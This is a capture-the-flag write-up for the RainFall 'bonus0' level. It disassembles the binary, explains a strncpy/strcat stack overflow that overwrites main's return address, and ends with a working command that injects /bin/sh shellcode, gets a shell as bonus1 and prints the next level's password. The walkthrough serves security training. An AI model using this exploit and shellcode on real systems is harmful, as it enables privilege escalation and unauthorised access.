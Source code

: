 # Bonus 0

- We login as user bonus0:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
```

```
bonus0@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus1 users 5566 Mar  6  2016 bonus0
bonus0@RainFall:~$ gdb bonus0
```

```
Dump of assembler code for function main:
   0x080485a4 <+0>:     push   %ebp
   0x080485a5 <+1>:     mov    %esp,%ebp
   0x080485a7 <+3>:     and    $0xfffffff0,%esp
   0x080485aa <+6>:     sub    $0x40,%esp
   0x080485ad <+9>:     lea    0x16(%esp),%eax
   0x080485b1 <+13>:    mov    %eax,(%esp)
   0x080485b4 <+16>:    call   0x804851e <pp>
   0x080485b9 <+21>:    lea    0x16(%esp),%eax
   0x080485bd <+25>:    mov    %eax,(%esp)
   0x080485c0 <+28>:    call   0x80483b0 <puts@plt>
   0x080485c5 <+33>:    mov    $0x0,%eax
   0x080485ca <+38>:    leave  
   0x080485cb <+39>:    ret    
End of assembler dump.
```

```
Dump of assembler code for function pp:
   0x0804851e <+0>:     push   ebp
   0x0804851f <+1>:     mov    ebp,esp
   0x08048521 <+3>:     push   edi
   0x08048522 <+4>:     push   ebx
   0x08048523 <+5>:     sub    esp,0x50

   0x08048526 <+8>:     mov    DWORD PTR [esp+0x4],0x80486a0
   0x0804852e <+16>:    lea    eax,[ebp-0x30]
   0x08048531 <+19>:    mov    DWORD PTR [esp],eax
   0x08048534 <+22>:    call   0x80484b4 <p>
   0x08048539 <+27>:    mov    DWORD PTR [esp+0x4],0x80486a0
   0x08048541 <+35>:    lea    eax,[ebp-0x1c]
   0x08048544 <+38>:    mov    DWORD PTR [esp],eax
   0x08048547 <+41>:    call   0x80484b4 <p>

   0x0804854c <+46>:    lea    eax,[ebp-0x30]
   0x0804854f <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x08048553 <+53>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048556 <+56>:    mov    DWORD PTR [esp],eax
   0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>

   0x0804855e <+64>:    mov    ebx,0x80486a4

   0x08048563 <+69>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048566 <+72>:    mov    DWORD PTR [ebp-0x3c],0xffffffff
   0x0804856d <+79>:    mov    edx,eax
   0x0804856f <+81>:    mov    eax,0x0
   0x08048574 <+86>:    mov    ecx,DWORD PTR [ebp-0x3c]
   0x08048577 <+89>:    mov    edi,edx
   0x08048579 <+91>:    repnz scas al,BYTE PTR es:[edi]

   0x0804857b <+93>:    mov    eax,ecx
   0x0804857d <+95>:    not    eax
   0x0804857f <+97>:    sub    eax,0x1
   0x08048582 <+100>:   add    eax,DWORD PTR [ebp+0x8]
   0x08048585 <+103>:   movzx  edx,WORD PTR [ebx]
   0x08048588 <+106>:   mov    WORD PTR [eax],dx

   0x0804858b <+109>:   lea    eax,[ebp-0x1c]
   0x0804858e <+112>:   mov    DWORD PTR [esp+0x4],eax
   0x08048592 <+116>:   mov    eax,DWORD PTR [ebp+0x8]
   0x08048595 <+119>:   mov    DWORD PTR [esp],eax
   0x08048598 <+122>:   call   0x8048390 <strcat@plt>

   0x0804859d <+127>:   add    esp,0x50
   0x080485a0 <+130>:   pop    ebx
   0x080485a1 <+131>:   pop    edi
   0x080485a2 <+132>:   pop    ebp
   0x080485a3 <+133>:   ret
End of assembler dump.
```

```
Dump of assembler code for function p:
   0x080484b4 <+0>:     push   ebp
   0x080484b5 <+1>:     mov    ebp,esp
   0x080484b7 <+3>:     sub    esp,0x1018
   0x080484bd <+9>:     mov    eax,DWORD PTR [ebp+0xc]
   0x080484c0 <+12>:    mov    DWORD PTR [esp],eax
   0x080484c3 <+15>:    call   0x80483b0 <puts@plt>

   0x080484c8 <+20>:    mov    DWORD PTR [esp+0x8],0x1000
   0x080484d0 <+28>:    lea    eax,[ebp-0x1008]
   0x080484d6 <+34>:    mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:    mov    DWORD PTR [esp],0x0
   0x080484e1 <+45>:    call   0x8048380 <read@plt>

   0x080484e6 <+50>:    mov    DWORD PTR [esp+0x4],0xa
   0x080484ee <+58>:    lea    eax,[ebp-0x1008]
   0x080484f4 <+64>:    mov    DWORD PTR [esp],eax
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    mov    BYTE PTR [eax],0x0

   0x080484ff <+75>:    lea    eax,[ebp-0x1008]
   0x08048505 <+81>:    mov    DWORD PTR [esp+0x8],0x14
   0x0804850d <+89>:    mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+93>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048514 <+96>:    mov    DWORD PTR [esp],eax
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>

   0x0804851c <+104>:   leave
   0x0804851d <+105>:   ret
End of assembler dump.
```

- Let's highlight the most important parts of the program:
```
   0x080485ad <+9>:     lea    0x16(%esp),%eax
   0x080485b1 <+13>:    mov    %eax,(%esp)
   0x080485b4 <+16>:    call   0x804851e <pp>
```
> The `<pp>` function is called with a parameter located 22 bytes before esp. So, there are 0x40 - 0x16 = 0x2a = 42 bytes, plus a gap between this address and the return address of the `<main>` function.

```
   0x08048526 <+8>:     mov    DWORD PTR [esp+0x4],0x80486a0
   0x0804852e <+16>:    lea    eax,[ebp-0x30]
   0x08048531 <+19>:    mov    DWORD PTR [esp],eax
   0x08048534 <+22>:    call   0x80484b4 <p>
   0x08048539 <+27>:    mov    DWORD PTR [esp+0x4],0x80486a0
   0x08048541 <+35>:    lea    eax,[ebp-0x1c]
   0x08048544 <+38>:    mov    DWORD PTR [esp],eax
   0x08048547 <+41>:    call   0x80484b4 <p>
```
> The `<p>` function is called twice, each time with a stack address.

```
   0x080484c8 <+20>:    mov    DWORD PTR [esp+0x8],0x1000
   0x080484d0 <+28>:    lea    eax,[ebp-0x1008]
   0x080484d6 <+34>:    mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>:    mov    DWORD PTR [esp],0x0
   0x080484e1 <+45>:    call   0x8048380 <read@plt>
```

```
   0x080484e6 <+50>:    mov    DWORD PTR [esp+0x4],0xa
   0x080484ee <+58>:    lea    eax,[ebp-0x1008]
   0x080484f4 <+64>:    mov    DWORD PTR [esp],eax
   0x080484f7 <+67>:    call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:    mov    BYTE PTR [eax],0x0
```

```
   0x080484ff <+75>:    lea    eax,[ebp-0x1008]
   0x08048505 <+81>:    mov    DWORD PTR [esp+0x8],0x14
   0x0804850d <+89>:    mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+93>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048514 <+96>:    mov    DWORD PTR [esp],eax
   0x08048517 <+99>:    call   0x80483f0 <strncpy@plt>
```
> This last one makes a call to `<read@plt>` with a size of 4096, then attempts to replace the first '\n' in the read buffer with a '\0', and finally copies the first 20 bytes of this buffer to the address provided as a parameter to the function.

- The buffers passed to the `<p>` function start at 48 bytes and 28 bytes after ebp, respectively. So, the first one has a size of 20 bytes, and the second one potentially goes up to 28 bytes. Let's see what happens next:
```
   0x0804854c <+46>:    lea    eax,[ebp-0x30]
   0x0804854f <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x08048553 <+53>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048556 <+56>:    mov    DWORD PTR [esp],eax
   0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>
```

```
   0x08048563 <+69>:    mov    eax,DWORD PTR [ebp+0x8]
   0x08048566 <+72>:    mov    DWORD PTR [ebp-0x3c],0xffffffff
   0x0804856d <+79>:    mov    edx,eax
   0x0804856f <+81>:    mov    eax,0x0
   0x08048574 <+86>:    mov    ecx,DWORD PTR [ebp-0x3c]
   0x08048577 <+89>:    mov    edi,edx
   0x08048579 <+91>:    repnz scas al,BYTE PTR es:[edi]
```
> The first buffer is copied to the address provided as a parameter to the `<pp>` function. Afterward, we will count the number of bytes that separate this address from the first '\0'.

```
   0x0804857b <+93>:    mov    eax,ecx
   0x0804857d <+95>:    not    eax
   0x0804857f <+97>:    sub    eax,0x1
   0x08048582 <+100>:   add    eax,DWORD PTR [ebp+0x8]
   0x08048585 <+103>:   movzx  edx,WORD PTR [ebx]
   0x08048588 <+106>:   mov    WORD PTR [eax],dx
```

```
   0x0804858b <+109>:   lea    eax,[ebp-0x1c]
   0x0804858e <+112>:   mov    DWORD PTR [esp+0x4],eax
   0x08048592 <+116>:   mov    eax,DWORD PTR [ebp+0x8]
   0x08048595 <+119>:   mov    DWORD PTR [esp],eax
   0x08048598 <+122>:   call   0x8048390 <strcat@plt>
```
> Put a space before the previously found '\0', then concatenate the second buffer.

- So, if the first buffer given to the `<p>` function doesn't contain a '\0', but the second one does, <strcat@plt> will concatenate the second buffer after the '\0' it contains, and its content could potentially overwrite the return address of the `<main>` function.

- We will place the shellcode in the first buffer and at the beginning of the second buffer, then the address of the start of our buffer at the end of the second buffer.
```
bonus0@RainFall:~$ (python -c "print('\x90\x90\x90\x90\x90\x90\x90\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73')"; python -c "print('\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\x36\xf7\xff\xbf' + 'a')"; cat) | ./bonus0
```

```
whoami
bonus1

cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9&
```
